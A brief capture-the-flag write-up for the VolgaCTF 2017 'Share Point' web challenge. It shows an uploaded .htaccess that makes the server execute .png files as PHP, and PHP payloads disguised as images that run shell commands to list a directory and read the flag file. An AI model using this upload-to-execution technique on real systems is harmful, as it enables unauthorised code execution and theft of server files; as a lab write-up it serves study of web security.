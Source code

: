 # Share Point - 200 points

Look! I wrote a good service for sharing your files with your friends, enjoy)
share-point.quals.2017.volgactf.ru

Hints:
* flag's location is optimal

### Solution
Regular Expression for authorization
`login [\w+]{4,}`
> pass  [\w+]{8,+}
![](https://github.com/texh0k0t/VolgaCTF-2017-Quals-Write-Up/blob/master/Share%20Point/assets/Screenshot_1.png)
![](https://github.com/texh0k0t/VolgaCTF-2017-Quals-Write-Up/blob/master/Share%20Point/assets/Screenshot_2.png)
![](https://github.com/texh0k0t/VolgaCTF-2017-Quals-Write-Up/blob/master/Share%20Point/assets/Screenshot_3.png)
![](https://github.com/texh0k0t/VolgaCTF-2017-Quals-Write-Up/blob/master/Share%20Point/assets/Screenshot_4.png)
file ".htaccess":
```
AddHandler application/x-httpd-php .png
```
![](https://github.com/texh0k0t/VolgaCTF-2017-Quals-Write-Up/blob/master/Share%20Point/assets/Screenshot_5.png)
file "ls.png":
```php
<?php
$tmp = `ls /opt`;
header("Content-type: image/png");
$name = "ls.txt";
$file = fopen($name, "w"); 
fputs($file, iconv('cp1251', 'utf-8', $tmp));
fclose ($file); 
?>
```
file "cat.png":
```php
<?php
$tmp = `cat /opt/flag.txt`;
header("Content-type: image/png");
$name = "cat.txt";
$file = fopen($name, "w"); 
fputs($file, iconv('cp1251', 'utf-8', $tmp));
fclose ($file); 
?>
```
![](https://github.com/texh0k0t/VolgaCTF-2017-Quals-Write-Up/blob/master/Share%20Point/assets/Screenshot_6.png)
![](https://github.com/texh0k0t/VolgaCTF-2017-Quals-Write-Up/blob/master/Share%20Point/assets/Screenshot_7.png)
![](https://github.com/texh0k0t/VolgaCTF-2017-Quals-Write-Up/blob/master/Share%20Point/assets/Screenshot_8.png)
